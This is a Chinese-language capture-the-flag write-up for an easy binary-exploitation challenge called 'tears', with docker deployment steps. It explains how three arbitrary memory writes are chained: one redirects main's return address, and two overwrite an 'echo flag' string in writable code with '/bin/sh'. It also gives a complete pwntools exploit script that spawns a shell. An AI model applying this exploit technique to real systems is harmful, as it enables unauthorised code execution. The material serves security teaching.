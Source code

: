 ####1.题目名称

tears

####2.题目类型

PWN (easy)

####3.题目描述

行车不规范，亲人两行泪。哦不，其实是三行泪。

####4.考查知识点

考察任意地址写的利用

####5.解题思路

- 题目中提供了三次任意地址写的机会，每次最多可以写4字节。

- 由于关闭了ASLR和PIE，使用一次机会将main函数的返回地址修改为hack函数的地址。

- hack函数虽然只是执行`echo flag`，但是可以发现程序的.text段是有RWX权限的，因此可以利用剩余的两次机会将`echo flag`覆盖为`/bin/sh`，进而拿到shell。当然，覆盖为其他命令也是可以的，只要长度在8字节内均可。

- docker的环境和本地的环境可能存在差别，主要体现在返回地址的位置会不同。但是题目泄露了栈上一个变量的地址，可以通过这个地址计算出docker中返回地址的正确位置。

- 示例EXP如下：

```python
from pwn import *
p = process('./tears')

def send(index, value):
	p.recvuntil('Eye  >')
	p.sendline(hex(index))
	p.recvuntil('Tear >')
	p.sendline(str(value))

def recv():
	p.recvuntil('Your relative:')
	luck = p.recvuntil('\n')
	return luck

luck = int(recv(), 16)
local = 0xffffcfcc
diff = luck - local
send(0xffffcffc + diff, 0x0804883c)   
send(0x080bb888, 0x6e69622f) 
send(0x080bb88c, 0x2068732f) 
p.interactive()
```

####6.环境部署

如果需要编译二进制文件，执行：
```bash
make clean & make all
```
Build docker:
```bash
docker build -t "tears" .
```
Run docker:
```bash
docker run -d -p "0.0.0.0:2333:9999" tears
```
程序会在2333端口运行。
